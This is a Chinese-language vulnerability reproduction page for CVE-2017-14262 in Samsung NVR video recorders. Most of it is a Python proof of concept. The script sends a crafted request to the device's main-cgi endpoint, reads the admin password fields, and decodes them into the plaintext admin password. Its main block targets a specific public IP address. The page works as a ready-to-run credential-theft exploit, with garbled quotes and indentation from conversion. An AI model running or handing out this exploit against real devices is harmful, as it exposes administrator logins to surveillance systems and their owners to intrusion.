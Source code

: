 ```yaml
---
title: （CVE-2017-14262）Samsung NVR devices 漏洞
id: zhfly3405
---
```


# （CVE-2017-14262）Samsung NVR devices 漏洞

## 一、漏洞简介

Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。 Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。

## 二、漏洞影响

## 三、复现过程

### poc

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from collections import OrderedDict

from itertools import takewhile

import requests

class SamsungNVR(object):

“”"

此漏洞三星和 uniview 都有

“”"

vul_info = {

“title”: “Samsung NVR设备安全漏洞”,

“cve”: “CVE-2017-14262”,

“desc”: “Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。”

“Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。”

}

```
pass_index = OrderedDict(
    [(1, 1), (9192090, 2), (1020910, 3), (25549780, 4), (24507899, 5), (16119889, 6), (9428219, 7), (2281891, 8),
     (10861120, 9), (15331742, 10), (22464897, 11), (24403461, 12), (13833575, 13), (16061285, 14), (10721046, 15),
     (16593252, 16), (22051260, 17), (16638739, 18), (6666540, 19), (9283102, 20), (18791719, 21), (25905184, 22),
     (2762182, 23), (12911758, 24), (21944959, 25), (10257708, 26), (894574, 27), (16004987, 28), (12850146, 29),
     (8043423, 30), (7835618, 31), (18372773, 32), (9417841, 33), (18658565, 34), (10330028, 35), (13289156, 36),
     (23739388, 37), (12401865, 38), (15005445, 39), (10176399, 40), (10776092, 41), (16860945, 42), (5353890, 43),
     (2688051, 44), (39030, 45), (18708319, 46), (23920727, 47), (4762271, 48), (24294435, 49), (16720763, 50),
     (21207445, 51), (20598600, 52), (13303854, 53), (2666164, 54), (19813766, 55), (16041010, 56), (3127839, 57),
     (25260962, 58), (15859882, 59), (23452596, 60), (11396657, 61), (18994119, 62), (12423246, 63), (21498126, 64),
     (23593931, 65), (9818447, 66), (14937061, 67), (24683641, 68), (11058089, 69), (12800298, 70), (133183, 71),
     (26013724, 72), (19021449, 73), (25487361, 74), (3426696, 75), (22326185, 76), (9151922, 77), (20416123, 78),
     (13876302, 79), (497003, 80), (18662430, 81), (7306818, 82), (24323487, 83), (26110937, 84),
     (5380058, 85), (21481095, 86), (9540458, 87), (14123621, 88), (6847253, 89), (7638896, 90),
     (22385568, 91), (1208753, 92), (15383366, 93), (24719837, 94), (26729699, 95), (3594142, 96),
     (371291, 97), (23345327, 98), (4415431, 99), (6477625, 100), (4733341, 101), (13423221, 102),
     (24215867, 103), (7503741, 104), (6390751, 105), (10192199, 106), (10352855, 107), (22393893, 108),
     (7198498, 109), (12838108, 110), (5515125, 111), (7229843, 112), (13872090, 113), (21671745, 114),
     (12457317, 115), (26153875, 116), (14327497, 117), (11382568, 118), (10132668, 119), (20086929, 120),
     (8117696, 121), (2098389, 122), (21553350, 123), (23391670, 124), (25350683, 125), (25970062, 126),
     (6959731, 127), (16338714, 128)])

@classmethod
def decrypt_password(cls, json_resp):
    """解密管理员账户密码"""
    try:
        au_pwd = takewhile(lambda x: x != 0, json_resp["au32LoginPasswd"])
        password = "".join(chr(cls.pass_index[pwd_int]) for pwd_int in au_pwd)
    except KeyError:
        password = ""
    return password

def __init__(self, ip: str, port: int):
    self._base_url = f"http://{ip}:{port}"

def verify(self):

    vul_path = '/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0}'
    url = self._base_url + vul_path
    try:
        req = requests.get(url, timeout=10)
        if req.status_code == 200:
            res_json = req.json()
            hash_pass = res_json.get("szLoginPasswd", "")
            if hash_pass:
                plain_pass = self.decrypt_password(res_json)
                if plain_pass:
                    return {"user": "admin", "password": plain_pass}
    except Exception as e:
        print(e) 
```

if **name** == ‘**main**’:

vul = SamsungNVR(“117.158.178.49”, 84)

vulres = vul.verify()

print(f"[-] {vul.vul_info}")

if vulres:

print(f"[+] 存在漏洞:{vulres}")

else:

print("[-] 不存在漏洞。") 
```
